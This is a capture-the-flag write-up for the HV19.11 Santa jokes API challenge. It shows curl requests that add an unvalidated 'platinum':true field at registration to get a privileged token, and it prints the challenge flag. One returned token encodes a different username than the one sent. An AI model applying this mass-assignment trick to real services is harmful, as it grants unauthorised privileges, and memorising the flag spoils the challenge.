 

# HV19.11 Frolicsome Santa Jokes API

**Task:** The elves created an API where you get random jokes about santa. 

Go and try it here: [http://whale.hacking-lab.com:10101](http://whale.hacking-lab.com:10101/)

**Flag:** `HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}`

# Research

Let's register like the API instructs us to:

```bash
$ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"testuser", "password": "passwordpassword"}'
{"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoidGVzdHVzZXIiLCJwbGF0aW51bSI6ZmFsc2V9LCJleHAiOjE1NzYwOTM2NzQuODc2MDAwMDAwfQ.8_oDtf3wz1sr2s-jQbEEKRMk2UgH3hHBeurYWXzGPVk"}% 
```

Give me some jokes!

``` bash
$ curl -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoidGVzdHVzZXIiLCJwbGF0aW51bSI6ZmFsc2V9LCJleHAiOjE1NzYwOTM2NzQuODc2MDAwMDAwfQ.8_oDtf3wz1sr2s-jQbEEKRMk2UgH3hHBeurYWXzGPVk"

{"joke":"Christmas is a time when kids tell Santa what they want and adults pay for it. Deficits are when adults tell the government what they want and their kids pay for it","author":"Richard Lamm","platinum":false}%  
```

That `platinum` field in the answer is so suspicious like hopper disguised as Santa Claus (the ears!). Let's see if we can set the value to `true` when we register for our token: 

```bash
$ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"rudolf", "password": "passwordpassword", "platinum":true}'
{"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiZ29vZ2xpZXMiLCJwbGF0aW51bSI6dHJ1ZX0sImV4cCI6MTU3NjA5NzEzOC41MDMwMDAwMDB9.6oW6bd4_SaEUtq-UU03rIHeeg_otLV0D_iSpMO1VFSc"}%    
```

Indeed we can!

```bash
curl -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiZ29vZ2xpZXMiLCJwbGF0aW51bSI6dHJ1ZX0sImV4cCI6MTU3NjA5NzEzOC41MDMwMDAwMDB9.6oW6bd4_SaEUtq-UU03rIHeeg_otLV0D_iSpMO1VFSc"
{"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}%
```

